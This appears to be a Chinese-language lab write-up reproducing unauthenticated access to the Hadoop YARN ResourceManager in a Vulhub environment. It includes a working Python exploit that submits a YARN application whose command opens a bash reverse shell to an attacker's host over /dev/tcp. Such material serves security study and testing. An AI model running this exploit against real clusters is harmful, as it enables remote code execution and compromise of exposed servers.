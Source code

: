 # Hadoop YARN ResourceManager 未授权访问

## 漏洞描述

- 参考阅读： [http://archive.hack.lu/2016/Wavestone%20-%20Hack.lu%202016%20-%20Hadoop%20safari%20-%20Hunting%20for%20vulnerabilities%20-%20v1.0.pdf](http://archive.hack.lu/2016/Wavestone - Hack.lu 2016 - Hadoop safari - Hunting for vulnerabilities - v1.0.pdf)

## 环境搭建

Vulhub运行测试环境

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8088`即可看到Hadoop YARN ResourceManager WebUI页面。

![image-20220224001542564](images/202202240015697.png)

## 漏洞复现

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API (https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 也可以提交任务执行。

利用过程如下：

1. 在本地监听等待反弹 shell 连接
2. 调用 New Application API 创建 Application
3. 调用 Submit Application API 提交

参考 [exp 脚本](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)

```python
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

成功反弹shell：

![image-20220224001724727](images/202202240017808.png)
